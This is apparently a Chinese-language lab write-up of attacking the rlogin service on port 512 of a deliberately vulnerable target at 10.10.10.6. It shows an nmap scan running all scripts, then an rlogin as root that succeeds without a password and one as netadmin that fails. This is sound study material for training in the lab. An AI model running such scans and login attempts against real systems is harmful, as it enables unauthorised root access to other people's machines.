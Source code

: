 # 512_rlogin

nmap扫描

>  nmap -v -p 512 -T4 --version-all --script all 10.10.10.6

![image-20210318231041369](../../image/meteaspolitale2/image-20210318231041369.png)

得到可rlogin的用户名单

用root登录

> rlogin -l root 10.10.10.6

![image-20210318231132787](../../image/meteaspolitale2/image-20210318231132787.png)

登录成功

其他用户

> rlogin -l netadmin 10.10.10.6

![image-20210318231359560](C:/Users/Cite-Arkssac/AppData/Roaming/Typora/typora-user-images/image-20210318231359560.png)

登录失败



